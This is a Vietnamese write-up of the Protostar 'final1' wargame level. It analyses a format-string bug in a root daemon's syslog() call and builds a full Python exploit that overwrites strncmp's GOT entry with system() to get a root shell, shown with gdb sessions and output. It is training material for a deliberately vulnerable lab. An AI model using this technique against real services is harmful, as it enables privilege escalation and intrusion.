








# Final one

Source code:
```c
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

void getipport()
{
  int l;
  struct sockaddr_in sin;

  l = sizeof(struct sockaddr_in);
  if(getpeername(0, &sin, &l) == -1) {
      err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  getipport();
  parser();

}
```

## Sơ lược về chương trình
- Hàm main gọi hai hàm là `getipport()` và `paser()` sau khi cài đặt các hàm kết nối với mạng
- `getipport()` gọi đến hàm `getpeername(0, &sin, &l) == -1)`. Trong đó `getpeername()` là hàm trả về địa chỉ của peer connected tới socket sockfd được trỏ đến bởi `sockaddr_in sin`. Hàm này cũng định nghĩa một `struct sockaddr_in sin` dùng để chứa địa chỉ ip và cổng của client để kết nối tới socket.
- `parser()` in ra final1 prompt, sau đó sử dụng fgets để đọc 128 byte từ buffer, sau đó sử dụng `trim()` để tìm kí tự xuống dòng và thay thế nó với 0 (cắt xâu tại vị trí đó).
- parser() sau đó kiểm tra xem strings chúng ta nhập vào bắt đầu với `username` hay `login`.
- cú pháp: `username` + "username". Sau đó hàm `strcpy()` sẽ copy phần "username" vào biến toàn cục username.
- với command `login` sẽ kiểm tra xem ta đã dùng nhập vào username chưa. Nếu đã gọi rồi thì nó sẽ gọi hàm `logit()` rồi sau đó sẽ in ra `login failed.`.
- `logit()` chỉ đơn giản là ghi vào `buf` thông điệp "Login from...". Sau đó chuỗi này được lưu vào system log.

Và đây là những gì ta có được khi chạy chương trình:

Ở bên trên ta cũng biết được lần login failed này cũng đã được lưu vào system log.



## Vulnerability
Chương trình này có vấn đề ở hàm `syslog`. 
Ở trong man page, ta có được:
> syslog() generates a log message, which will be distributed by syslogd(8).  The priority argument is formed by ORing  the  facility  and  the  level  values  (explained below).  **The remaining arguments are a format, as in printf(3)** and any arguments required by the format, except that the two character sequence %m will be replaced by the error message string strerror(errno).  A trailing newline may be added if needed.

Như vậy syslog hoạt động tương tự như printf() và buf ở trong hàm logit là format parameter.
thật vậy:


## Exploit
- Strategy: Ghi đè địa chỉ bên trong GOT(Global offset table) với hàm khác như là **system("/bin/sh", 0, 0)**.
- Trong bài này chúng ta sẽ chọn hàm `strncmp(line, "username ", 9) == 0` để tiện cho việc ghi đè. Lí do là chúng ta kiểm soát được tham số đầu tiên của hàm này: line. Và mục tiêu của chúng ta là biến `strncmp` thành `system` với tham số đầu tiên là `/bin/sh`

- Khó khăn đầu tiên là làm sao có thể căn chỉnh được các kí tự AAAA này sao cho nó trở nên alligned
Lí do nó bị lệch là vì chúng bị ảnh hưởng bởi độ dài của IP và Port
độ dài của ip và port nhỏ nhất có thể là 9: **0.0.0.0:0**
còn dài nhất có thể là 21: **000.000.000.000:0000**
Ở đây ta sẽ chọn 1 giá trị sao cho nó chia hết cho 4 và lớn hơn 21, đồng thời cũng không quá lớn vì chúng ta chỉ có thể nhập 128 byte, và giá trị này ở đây là 24
Ta sẽ căn chỉnh sao cho với bất kì địa chỉ ip và cổng nào thì sẽ luôn được thêm các byte "A" vừa đủ để trở thành 24 byte
Do vậy ta bổ sung đoạn code:

```py
ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))
```

 
rồi bây giờ thì ngoan rồi

địa chỉ cần ghi đè nằm ở đây, và là vị trí số 17

như vậy ta cần ghi đè `0xb7ecffb0` vào địa chỉ này
Chiến lược của chúng ta là ghi đè 4 byte thấp `ffb0` trước, sau đó ghi phần `b7ec` sau

## Một chút vấn đề với các process
- Lưu ý: Trong quá trình debug có thể chúng ta sẽ găp phải tình huống 



Chuyện này xảy ra là do chúng ta đang debug một tiến trình đã bị terminated. nó có thể xảy ra do chúng ta `CTRL + Z` chương trình này thì vì `CTRL + C` để ngắt nó. (kiểm tra bằng `ps aux | grep final1` sẽ thấy được điều này)
Hơn nữa, do tiến trình này có status là "T" hay "Terminated" nên chúng ta không thể dùng lệnh kill để kill process này theo cách thông thường. 
Tra cứu một hồi, tôi phát hiện để kill được tiến trình này, trước hết chúng ta phải khôi phục nó lại rồi mới có thể kill được
Giải quyết như sau:
> fs
> kill %

### Debug

- Chương trình python ở thời điểm hiện tại:
```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%x "*20
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```

ở bên trong `tail /var/log/syslog` ta được:
```bash
Nov 12 23:39:06 (none) final1: Login from 127.0.0.1:46455 as [AAAAAAAAA��#004#010��#004#0108049ee4 804a2a0 804a220 bffffca6 b7fd7ff4 bffffaf8 69676f4c 7266206e 31206d6f 302e3732 312e302e 3436343a 61203535 415b2073 41414141 41414141 804a1a8 804a1aa 25207825 78252078 ] with password [AAAA]
```

Hai hàm raw_input để ngắt cho chương trình không bị kết thúc và ta có thể dừng lại ở điểm này (tương tự như break point). Bây giờ chúng ta sẽ bắt đầu vào debug

- Ban đầu ta thấy chương trình chỉ có 1 tiến trình đang hoạt động



Chạy chương trình python mà ta đã viết, ta thấy ở đây có một tiến trình mới được sinh ra

Debug tiến trình này:
```gdb
root@protostar:/opt/protostar/bin# gdb --pid 2283

Attaching to process 2283
Reading symbols from /opt/protostar/bin/final1...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82      ../sysdeps/unix/syscall-template.S: No such file or directory.
        in ../sysdeps/unix/syscall-template.S
(gdb) c
Continuing.
^C
Program received signal SIGINT, Interrupt.
0xb7f53c1e in __read_nocancel () at ../sysdeps/unix/syscall-template.S:82
82      in ../sysdeps/unix/syscall-template.S
Current language:  auto
The current source language is "auto; currently asm".
(gdb) info functions strncmp
All functions matching regular expression "strncmp":

File strncmp.c:
int *__GI_strncmp(const char *, const char *, size_t);

File ../sysdeps/i386/i486/bits/string.h:
int __strncmp_g(const char *, const char *, size_t);

Non-debugging symbols:
0x08048d9c  strncmp
0x08048d9c  strncmp@plt
(gdb) disass 0x08048d9c
Dump of assembler code for function strncmp@plt:
0x08048d9c <strncmp@plt+0>:     jmp    *0x804a1a8
0x08048da2 <strncmp@plt+6>:     push   $0x160
0x08048da7 <strncmp@plt+11>:    jmp    0x8048acc
End of assembler dump.
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:  0x00000035
```

Hơn nữa, với những hệ thống không bật ASLR như trong trường hợp này(địa chỉ của libc không bị nhảy), ta có thể lấy trực tiếp địa chỉ của hàm system trong libc bằng cách:
```gdb
(gdb) x system
0xb7ecffb0 <__libc_system>:     0x890cec83
```


## tính toán offset
Ta thấy ở bên trên, GOT đang chứa địa chỉ là 35. Việc của chúng ta bây giờ là ghi đè 0xb7ecffb0 vào bên trong địa chỉ này

```py
root@protostar:/opt/protostar/bin# python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xffb0 - 0x00000038 + 8
65408
```

chương trình exploit của chúng ta lúc này được sửa thành:
```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```

tiếp tục với 4 byte cao

```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n" + "%16$x" + "%18$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```
lúc này ta thấy được địa chỉ được ghi đè vào bên trong GOT là:
```gdb
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:  0xffb8ffb0
```

tính toán offset tiếp:

```py
user@protostar:/tmp$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x1b7ec - 0xffb8 +8
47164
```

Cuối cùng ta có được chương trình exploit
```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n" + "%16$47164x" + "%18$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
## Kết quả
```
user@protostar:/tmp$ python final1.py
[final1] $
waiting ... hit [enter]
[final1] $
waiting ... hit [enter]
login failed
[final1] $
whoami
root
[final1] $ id
uid=0(root) gid=0(root) groups=0(root)
[final1] $
```
## References 
- https://askubuntu.com/questions/704939/how-to-kill-a-process-in-state-t-terminated
- https://www.youtube.com/watch?v=MBz5C9Wa6KM&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=37&ab_channel=LiveOverflow